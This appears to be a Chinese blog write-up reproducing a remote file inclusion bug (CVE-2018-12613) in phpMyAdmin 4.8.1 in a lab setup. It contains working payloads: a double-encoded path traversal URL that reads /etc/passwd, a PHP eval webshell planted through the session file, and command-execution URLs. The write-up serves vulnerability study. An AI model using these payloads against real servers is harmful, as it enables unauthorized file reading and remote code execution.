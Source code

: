 ```yaml
---
title: phpMyAdmin 4.8.1 远程文件包含(CVE-2018-12613)
date: 2020-07-01 21:17:26
categories: 漏洞复现
tags: phpMyAdmin
---
```


#### 背景

phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。其index.php中存在一处文件包含逻辑，通过二次编码即可绕过检查，造成远程文件包含漏洞。

<!--more-->

#### 复现过程

##### 漏洞验证

1.使用如下POC，若成功读取/etc/passwd文件内容，则存在漏洞

```
http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

![](http://cdn.laohuan.art/2020-06-30_20-10-11.png)

##### 利用session写shell

1.需先登录phpmyadmin，执行sql语句,代码为GET传参,图为POST传参

```php
SELECT "<?php eval($_GET['cmd']); ?>"
```

2.F12获取cookie

![](http://cdn.laohuan.art/2020-06-30_20-43-05.png)

将cookie的值和**sess_**拼接，便得到了存储在服务器端的session文件,这里注意，图中的cookie值因测试多次和实际值不一样，因为人懒，懒得再截图。

 `sess_575f961b1e574936b7a6e1d237f82ade`

![](http://cdn.laohuan.art/2020-07-01_16-31-03.png)

3.使用POC命令执行

当然实际环境中就根据经验或其他手段来猜测路径了

```url
http://URL:端口/index.php?cmd=phpinfo();&target=db_sql.php%253f/../../../../tmp/sess_575f961b1e574936b7a6e1d237f82ade
/var/www/html
```

![](http://cdn.laohuan.art/2020-07-01_20-48-30.png)

```
http://URL:端口/index.php?cmd=system(%27whoami%27);&target=db_sql.php%253f/../../../../tmp/sess_575f961b1e574936b7a6e1d237f82ade
```

![](http://cdn.laohuan.art/2020-07-01_21-00-22.png)

![](http://cdn.laohuan.art/2020-07-01_21-01-12.png)

#### 参考链接

<https://www.pianshen.com/article/6744149320/>

<https://github.com/vulhub/vulhub/blob/master/phpmyadmin/CVE-2018-12613/README.zh-cn.md/>


